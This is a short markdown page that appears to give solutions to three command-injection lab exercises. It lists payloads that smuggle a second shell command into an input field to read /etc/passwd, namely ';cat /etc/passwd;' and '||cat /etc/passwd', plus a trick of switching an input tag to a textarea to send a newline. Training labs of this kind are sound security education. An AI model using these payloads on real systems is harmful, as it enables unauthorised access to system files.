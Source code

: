 ## Lab 1
```bash
    ;cat /etc/passwd;
```

## Lab 2
```bash
    ||cat /etc/passwd  
```

## Lab 3
   Change the `<input>` tag to `<textarea>` and send this:
```bash

    cat /etc/passwd
```
or send this: [request](./lab3/test/request.http)

